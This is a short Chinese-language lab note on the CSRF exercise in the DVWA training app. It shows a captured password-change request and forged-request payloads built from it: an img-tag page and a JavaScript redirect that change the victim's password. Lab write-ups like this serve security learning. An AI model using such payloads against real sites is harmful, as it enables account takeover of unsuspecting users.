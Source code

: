 

bp抓包:


```http=
GET /vulnerabilities/csrf/?password_new=1111111111111&password_conf=3333333333333&Change=Change HTTP/1.1
Host: www.dvwa.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.dvwa.com/vulnerabilities/csrf/
Cookie: PHPSESSID=qm98fvgpvaostapd4eekcg3oco; security=low
Upgrade-Insecure-Requests: 1



```

拼一下get url
```
http://www.dvwa.com/vulnerabilities/csrf/?password_new=666&password_conf=666&Change=Change
```




* 攻擊者可以在外網搭一個web

這招我看別人用的，但失敗。他是用img 標籤去請求。
圖片發出url 這招在dvwa 1.1 的環境無法成功，但這招可以用在簡單的網站上例無需登入的。

```htmlmixed=
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>


<img src="http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change">

</body>
</html>
```


js直接跳轉
```javascript=
<script type="text/javascript">
	
window.location.assign("http://www.dvwa.com/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change");

</script>
```
